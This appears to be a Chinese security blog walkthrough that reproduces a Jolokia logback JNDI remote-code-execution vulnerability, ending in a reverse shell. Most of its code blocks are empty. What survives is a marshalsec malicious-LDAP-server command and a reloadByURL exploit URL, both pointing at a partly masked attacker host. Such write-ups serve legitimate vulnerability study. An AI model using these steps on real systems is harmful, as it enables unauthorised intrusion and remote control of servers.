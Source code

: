 #  Jolokia logback JNDI RCE漏洞复现   
原创 浩凯Security  浩凯信安   2024-12-06 00:31  
  
####   
#### 免责声明浩凯信安（本公众号）的技术文章仅供参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！  
####   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKlXTfvQZOPCxib4VoHgCTyF5oATa7ZxbK9zYRia3x2ySqSicj0ic4oFHdlQ/640?wx_fmt=png&from=appmsg "")  
####   
#### 漏洞原理：  
  
  
1.直接访问可触发漏洞的URL，  
相当于通过jolokia调用ch.qos.logback.classic.jmx.JMXConfigurator  
类的reloadByURL  
方法  
  
2.目标机器请求外部日志配置文件地址，获得恶意xml文件  
  
3.目标机器使用saxParser.parse解析xml文件（这里导致了xxe漏洞）  
  
4.xml文件中利用logback  
依赖的insertFormJNDI标签，设置了外部JNDI服务器地址  
  
5.目标机器请求恶意JNDI服务器，导致JNDI注入，造成RCE漏洞  
  
#### 利用条件：  
  
- 目标网站存在  
/jolokia  
或  
/actuator/jolokia  
接口  
  
- 目标使用了  
jolokia-core  
依赖（版本要求未知）并且环境中存在相关MBean  
  
- 目标可以请求攻击者的HTTP服务器（请求可出外网）  
  
- 普通JNDI注入受目标JDK版本影响，jdk <  
6u201/7u191/8u182/11.0.1(LDAP)  
  
#### 利用方法：  
##### 步骤一：查看已存在的MBeans     
#####    
##### 访问/jolokia/list接口，查看是否存在ch.qos.logback.classic.jmx.JMXConfigurator和reloadByURL关键词。  
  
##### 步骤二：托管xml文件  
  
  
在自己控制的vps机器上开启一个简单HTTP服务器，端口尽量使用常见的HTTP服务端口（80、443）  
```
```  
  
在根目录下放置以  
xml  
结尾的  
example.xml  
文件，内容如下：  
```
```  
  
从ip为47.93.xx.xxx端口为1389获取名为JNDIObject的对象    
  
##### 步骤三：准备要执行的java代码  
  
  
用来反弹 shell 的   
JNDIObject.java  
```
```  
  
使用兼容低版本jdk的方式编译：  
```
```  
  
然后将生成的  
JNDIObject.class  
文件拷贝到步骤二中的网站根目录  
  
##### 步骤四：架设恶意ldap服务  
  
  
下载marshalsec，使用下面命令架设对应的ldap服务：  
```
```  
  
该命令使用 marshalsec 工具包中的 marshalsec.jndi.LDAPRefServer 类来创建一个 LDAP 服务器，该服务器将监听在本地的 1389 端口，并通过 HTTP 访问 URL  
http://47.93.45.xx:xxx/#JNDIObject  
，获取JNDIObject.class 文件  
  
##### 步骤五：监听反弹shell的端口  
  
  
一般使用nc监听端口，等待反弹shell  
```
```  
  
##### 步骤六：从外部URL地址加载日志配置文件  
  
> 如果目标成功请求  
exmple.xml  
并且marshalsec也接收到了目标请求，但是目标没有请求JNDIObject.class，大概率是因为目标环境的jdk版本太高，导致JNDI利用失败  
  
  
替换实际的your-vps-ip地址访问URL触发漏洞：  
```
```  
  
##### 漏洞复现案例  
  
  
存在reloadByURL，证明jolokia漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKNhI01tC9iclnYdcvlhdZ5PkiaDglxqZiaYJj85ibrhRINMmbsd185YMiblw/640?wx_fmt=png&from=appmsg "")  
  
用python开启一个HTTP服务  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKrqYoSr0Xk5TbUTj8tgEubiaK8gs25qqsyPpTd6xL4SloRkvDTichpVFg/640?wx_fmt=png&from=appmsg "")  
  
在根目录下放置以xml结尾的example.xml文件，内容如下：  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKNoKGM7VPKPQzZlcic9OqYYtB9uC9XCstD8Px1UpGib3BBMPBrqLmhYxQ/640?wx_fmt=other&from=appmsg "")  
  
反弹shell，  
JNDIObject.java文件内容如下  
  
将下面的String ip和String port替换成自己vps-ip和端口  
```
```  
  
如上述不好使用下面的尝试  
```
```  
  
将上面的java文件进行编译，选择使用兼容低版本jdk的方式进行编译  
```
```  
  
然后将生成的  
JNDIObject.class  
文件与  
example.xml  
文件放在网站的根目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKgEAOURTbLYdPiacMRW3yNLYutWsjEibUeMItldicsfmFopaP99dUU68fg/640?wx_fmt=png&from=appmsg "")  
  
使用  
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://47.93.xx.xxx:80/#JNDIObject 1389  
架设恶意ldap服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKVlGsW6nT1iaLQsFWwBfys96G3msVJkoEPIDxicSB3GBxcwnF0txqC1vw/640?wx_fmt=png&from=appmsg "")  
  
监听反弹shell端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKsC62Q8xD2el1ZyulfZd1gbjiceNe2MHiaS2WUyniakD0gNRb5G1uLibGxQ/640?wx_fmt=png&from=appmsg "")  
  
从外部 URL 地址加载日志配置文件  
```
```  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKKuzW400jiaICay8W0OBF7YGgEiavD3HGDHpVqkXQUF6FLlIia4ibGk1BPg/640?wx_fmt=png&from=appmsg "")  
  
这里我没有反弹shell成功，可能是因为我搭建的靶机java环境太高了  
  
MBeans：被管理的Java对象  
  
ldap 服务：目录管理工具  
  
 JNDI：是一个应用程序设计的 API，一种标准的 Java 命名系统接口。JNDI 提供统一的客户端 API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将 JNDI API 映射为特定的命名服务和目录系统，使得 Java 应用程序可以和这些命名服务和目录服务之间进行交互  
  
**这里我找到了JDK高版本注入的方式，我尝试使用ldap进行注入无法成功，但是rmi可以成功**  
  
用python开启一个HTTP服务  
```
```  
  
在根目录下放置以  
xml  
结尾的  
example.xml  
文件，内容如下：  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKlVH1u3WohmicCiam7H5PQZ2Zup0RungSLpUkTMMN5N109Ix7YUkd7oCw/640?wx_fmt=png&from=appmsg "")  
```
```  
  
监听反弹shell端口4444  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKhZN4ScNKaFU9icqBvIFsKnp21dETxwd5cjgt2eiaF9DUE47Ztq4RHalA/640?wx_fmt=png&from=appmsg "")  
  
启动命令  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKqsJNdvcibpD6a6wMcG0wnaWXW6BQta0m3icvgb8YS71dnYcOVVbx8Qlg/640?wx_fmt=png&from=appmsg "")  
  
将这个替换到  
example.xml  
文件  
```
```  
  
然后通过URL访问  
> http://43.143.xxx.xx:9094/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/47.93.xx.xxx!/example.xml  
  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnK1gCCsiaNKo9OavQ7pribnOZ1uYJf3JiaOxtu48gt5icvWpicSQSXjicJvxfA/640?wx_fmt=other&from=appmsg "")  
  
发现反弹shell成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Kfq5WKPPMC8mSm15x2enS7MkIru9ZTnKjj9biaJxAJefr8icFpzQFicRt4KP9JwmH5m3K3iaWt0nYBlTVtNb7xz9xg/640?wx_fmt=other&from=appmsg "")  
  
  
